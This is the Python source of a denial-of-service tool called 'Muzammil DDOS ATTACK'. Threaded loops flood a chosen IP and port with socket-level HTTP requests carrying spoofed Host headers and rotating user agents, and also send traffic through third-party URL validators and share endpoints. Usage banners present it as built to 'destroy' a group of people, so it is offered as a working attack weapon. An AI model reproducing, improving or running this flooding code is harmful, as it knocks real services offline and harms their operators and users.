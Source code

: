 import socket
import sys,os
from optparse import OptionParser
import threading,time,sys,logging,urllib.request,random
from time import sleep
from queue import Queue
import rich
from rich.markdown import Markdown
from rich.progress import track
from rich.console import Console


s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
target  = "default"
ports = 8080
levels = 3
fake_ip = "999.999.999"
hides = 0
console = Console()
already_connected_true = 0
already_connected_false = 1


def live_bro():
            if already_connected_true % hides ==0:
                console.print(f"[{time.ctime(time.time())}] connected : {already_connected_true}",style="green")
            else:
                pass
            if already_connected_false % hides ==0 :
                console.print(f"Wrong : {already_connected_false}",style="red")
            else:
                pass
                
              
                
                

 #Scrypt Typer  
def get_Typer():
	global host
	global port
	global thr
	global item
	global target
	global ports
	global levels
	global fake_ip
	global hides
	optp = OptionParser(add_help_option=False,epilog="MUZAMMIL DDOS ATTACK")
	optp.add_option("-q","--quiet", help="set logging to ERROR",action="store_const", dest="loglevel",const=logging.ERROR, default=logging.INFO)
	optp.add_option("-i","--ip", dest="host",help="attack to server ip -i ip")
	optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80")
	optp.add_option("-l","--level",type="int",dest="turbo",help="default 1 -t 1")
	optp.add_option("-f","--fake",type="str",dest="fake",help="default -f 00.00.00.00")
	optp.add_option("-d","--hide",type="int",dest="hide",help="default -d 200")
	optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
	opts, args = optp.parse_args()
	logging.basicConfig(level=opts.loglevel,format='%(levelname)-8s %(message)s')
	if opts.help:
		usage()
		usage1()
		sys.exit()
	if opts.host is not None:
		host = opts.host
		target = host
	else:
		pass
	if opts.port is None:
		port = 80
		ports =port
	else:
		port = opts.port
		ports =port
	if opts.turbo is None:
		thr = 1
		levels = thr
	else:
		thr = opts.turbo
		levels = thr
	if opts.fake is not None:
		hos = opts.fake
		fake_ip = hos
	else:
		fake_ip = "999.999.999.999"
	if opts.hide is None:
		hide = 0
		hides = hide
	else:
		hide = opts.hide
		hides = hide
		
		
def user_agent():
	global uagent
	uagent=[]
	uagent.append("Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0) Opera 12.14")
	uagent.append("Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:26.0) Gecko/20100101 Firefox/26.0")
	uagent.append("Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.7 (KHTML, like Gecko) Comodo_Dragon/16.1.1.0 Chrome/16.0.912.63 Safari/535.7")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1")	

def bot_hammering(url):
	try:
		while True:
			req = urllib.request.urlopen(urllib.request.Request(url,headers={'User-Agent': random.choice(uagent)}))
			print("\033[Muzammil is attacking...\033[0m")
			time.sleep(.1)
	except:
		time.sleep(.1)

def my_bots():
	global bots
	bots=[]
	bots.append("http://validator.w3.org/check?uri=")
	bots.append("http://www.facebook.com/sharer/sharer.php?u=")
	return(bots)


#DDOS 1 + MASSEGS
def attack(item):
             with console.status("[bold dark_orange] Muzammil is Attacking CTRL+Z .....") as status:
                 while True:
                     try:
                         packet = str("GET / HTTP/1.1\nHost: "+target+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
                         s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                         s.connect((target,port))
                         s.sendto(("GET / HTTP/1.1\r\n").encode("ascii"),(target,ports))
                         s.sendto(("Host :"+fake_ip+"\r\n\r\n").encode("ascii"),(target,ports))
                         s.close()
                         
                         
                         global already_connected_true
                         already_connected_true +=1
                         console.print(f"attacks [{already_connected_true}] The attack succeeded port[{ports}] server[{target}] level[{levels}] !!!!",style="bold green")
                     
                     except:
                         global already_connected_false
                         already_connected_false +=1
                         console.print(f"attacks [{already_connected_false}] Faced Attack port[{ports}] server[{target}] level[{levels}] ",style="bold red")
                         s.close()
#DDOS 1 NOT MS                   
def attack_2(item):
             live_bro()
             try:
                 while True:
                     packet = str("GET / HTTP/1.1\nHost: "+target+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
                     s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                     s.connect((target,port))
                     s.sendto(("GET / HTTP/1.1\r\n").encode("ascii"),(target,ports))
                     s.sendto(("Host :"+fake_ip+"\r\n\r\n").encode("ascii"),(target,ports))
                     s.close()
                         
                         
                     global already_connected_true
                     already_connected_true +=1
                     live_bro()
             except:
                     
                     global already_connected_false
                     already_connected_false +=1
                     s.close()
                     live_bro()
 #DDOS 2 IN MASSEGS
def down_it(item):
	try:
		while True:
			packet = str("GET / HTTP/1.1\nHost: "+target+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((target,int(ports)))
			if s.sendto( packet, (target, int(ports)) ):
				s.shutdown(1)
				global already_connected_true
				already_connected_true +=1
				console.print(f"attacks [{already_connected_true}] The attack succeeded {time.ctime(time.time())} !!!!",style="bold green")
			else:
				global already_connected_false
				already_connected_false +=1
				s.shutdown(1)
				console.print(f"attacks [{already_connected_false}] Faced Attack port[{ports}] server[{target}] level[{levels}] ",style="bold red")
			#time.sleep(.1)
	except socket.error as e:
		console.print(f"attacks [{already_connected_false}] Faced Attack  Server is down port[{ports}] server[{target}] level[{levels}] ",style="bold red")
		#print("\033[91m",e,"\033[0m")
		time.sleep(.1)
		
		
#DDOS 2 IN NOT MS		
def down_it_2(item):
	try:
		while True:
			packet = str("GET / HTTP/1.1\nHost: "+target+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((target,int(ports)))
			if s.sendto( packet, (target, int(ports)) ):
				s.shutdown(1)
				global already_connected_true
				already_connected_true +=1
				live_bro()
			else:
				s.shutdown(1)
				global already_connected_false
				already_connected_false +=1
				live_bro()
				time.sleep(.1)
	except socket.error as e:
	    already_connected_false +=1
	    live_bro()

#DDOS IN MESSAGE
def dos():
	while True:
		item = q.get()
		down_it(item)
		q.task_done()
def dos2():
	while True:
		item=w.get()
		bot_hammering(random.choice(bots)+"http://"+target)
		w.task_done()
def dos3():
	while True:
		item = q.get()
		attack(item)
		q.task_done()


#DDOS IN NOT MS
def dos_2():
	while True:
		item = q.get()
		down_it_2(item)
		q.task_done()
def dos_3():
	while True:
		item = q.get()
		attack_2(item)
		q.task_done()

def usage():
    console = Console()
    MARKDOWN=("""
         	     Muzammil DDOS ATTACK            """)
    md = Markdown(MARKDOWN)
    console.print(md,style="bold green")   
    
    
    
    
def usage1():
    console = Console()
    MARKDOWN="""
    		
	usage : python MuzammilDDOS.py [-i] [-p] [-l]
        	-h : help
        	-i : server ip
        	-p : port server 
        	-l : Livel Attack {number} 
        	-f : Fake ip
            -d : Hide message
            	Best lvl =3 
	example :
	    python MuzammilDDOS.py -i 12.345.678 -p 80 -l 3"""
    md = Markdown(MARKDOWN)
    console.print(md,style="bold green")
    #sys.exit()




def usage2():
    console = Console()
    MARKDOWN2="""
    
                       ALLAH HU AKBAR
    """
    md = Markdown(MARKDOWN2)
    console.print(md,style="bold green")
    
    
    
    
def usage3():
    console = Console()
    MARKDOWN="""
    Programmer : Muzammil raza
    Made for : Palestine
    Telegram : @CybeR_mux4mmil
    Tool Information : I Was Specially Made To Destroy Islam  Haters
"""
    md = Markdown(MARKDOWN)
    console.print(md,style="bold green")




 #Script Run
def run():
    os.system("clear")
    console.print(f"""
    Host : {str(target)}
    Port : {ports}
    Level : {levels}
    Fake ip : {fake_ip}
       """)
    for step in track(range(10),description="Wait ...."):
        sleep(.001)
    os.system("clear")
    usage()
    usage3()
    usage2()
    for step in track(range(10),description="Starting ...."):
        sleep(.1)
    while True:
        for i in range(int(levels)):
            thread = threading.Thread(target=dos3)
            thread.daemon = True 
            thread.start()
            t = threading.Thread(target=dos)
            t.daemon = True  # if thread is exist, it dies
            t.start()
            t2 = threading.Thread(target=dos2)
            t2.daemon = True  # if thread is exist, it dies
            t2.start()
            start = time.time()
    		#tasking
            item = 2000000
            while True:
                if (item>100000): # for no memory crash maybe maybe 
                    item=2000000
                    time.sleep(.1)
                item = item + 1
                q.put(item)
                w.put(item)
            q.join()
            w.join()   

#Script Run IN NOT MS
def run2():
    os.system("clear")
    console.print(f"""
    Hoat : {str(target)}
    Port : {ports}
    Level : {levels}
    Fake ip : {fake_ip}
       """)
    for step in track(range(10),description="Wait ...."):
        sleep(.001)
    os.system("clear")
    usage()
    usage3()
    usage2()
    while True:
        for i in range(int(levels)):
            
            thread = threading.Thread(target=dos_3)
            thread.daemon = True 
            thread.start()
            
            t = threading.Thread(target=dos_2)
            t.daemon = True  # if thread is exist, it dies
            t.start()
            
            t2 = threading.Thread(target=dos2)
            t2.daemon = True  # if thread is exis,t, it dies
            t2.start()
            
            start = time.time()
    		#tasking
            item = 2000000
            while True:
                if (item>100000): # for no memory crash maybe
                    item=2000000
                    time.sleep(.1)
                item = item + 1
                q.put(item)
                w.put(item)
            q.join()
            w.join()   


# reading headers
global data
headers = open("headers.txt", "r")
data = headers.read()
headers.close()
#task queue are q,w
q = Queue()
w = Queue()

if __name__ == "__main__":
    if len(sys.argv) < 2:
        usage()
        usage1()
        sys.exit()
        #usage2()
    get_Typer()
    user_agent()
    my_bots()
    if len(sys.argv) < 2 :
        usage()
        usage1()
    else:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target,int(ports)))
            s.settimeout(1)
            if hides == 0:
                run()
            else:
                run2()
        except socket.error as e:
            console.print("check server ip and port",style="bold dark_orange")
            sleep(2)
            usage()
            usage1()

